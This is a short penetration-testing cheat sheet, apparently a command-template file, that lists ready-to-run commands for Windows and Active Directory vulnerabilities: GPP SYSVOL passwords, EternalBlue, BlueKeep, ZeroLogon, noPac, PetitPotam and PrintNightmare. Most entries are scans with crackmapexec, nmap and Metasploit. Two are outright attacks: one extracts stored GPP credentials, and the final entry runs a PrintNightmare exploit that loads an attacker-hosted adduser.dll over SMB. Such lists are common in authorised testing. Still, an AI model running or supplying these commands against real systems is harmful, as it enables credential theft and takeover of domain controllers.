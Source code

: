 # CVE

## Check & Exploit GPP SYSVOL (MS14-025) - cme

```
cme smb <domain-controller> -u <user> -p '<password>' -d <domain> -M gpp_password
```

= domain-controller: $DOMAIN_CONTROLLER
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN

## Check & Exloit GPP SYSVOL (MS14-025) - msf

```
msfconsole -x "use scanner/smb/smb_enum_gpp"
```

## Check SMB vulnerabilities

```
nmap -Pn --script smb-vuln* -p139,445 <target>
```

= target: ./targets/domain/computers.txt

## Check Eternal Blue (MS17-010) - cme

```
cme smb <target> -M ms17
```

= target: ./targets/domain/computers.txt

## Check BlueKeep (CVE-2019-0708)

```
rdpscan <target>
```

= target: ./targets/domain/computers.txt

## Check Eternal Blue (MS17-010) - nmap

```
nmap -Pn --script smb-vuln-ms17-010 -p139,445 <target>
```

= target: ./targets/domain/computers.txt

## Check Zero Logon (CVE-2020-1472)

```
cme smb <domain-controller> -M zerologon
```

= domain-controller: $DOMAIN_CONTROLLER

## Check noPac (CVE-2021-42278 and CVE-2021-42287)

```
cme smb <domain-controller> -u <user> -p '<password>' -d <domain> -M nopac
```

= domain-controller: DOMAIN_CONTROLLER
= user: ${USER}
= password: ${PASSWORD}
= domain: ${DOMAIN}

## Check PetitPotam (CVE-2021-36942)

```
cme smb <domain-controller> -u <user> -p '<password>' -d <domain> -M petitpotam
```

= domain-controller: $DOMAIN_CONTROLLER
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN

## Check Print Nightmare (CVE-2021-34527)

```
docker run -v "<target>:/target.txt"-it itwasalladream -u <user> -p '<password>' -d <domain> target.txt
```

= user: $USER
= password: $PASSWORD
= domain: $DOMAIN
= target: $PWD/ad_computers.txt

## Exploit Print Nightmare (CVE-2021-34527)

```
CVE-2021-1675 <domain>/<user>:<password>@<target> '\\<my_ip>\public\adduser.dll'
```

= user: $USER
= password: $PASSWORD
= domain: $DOMAIN
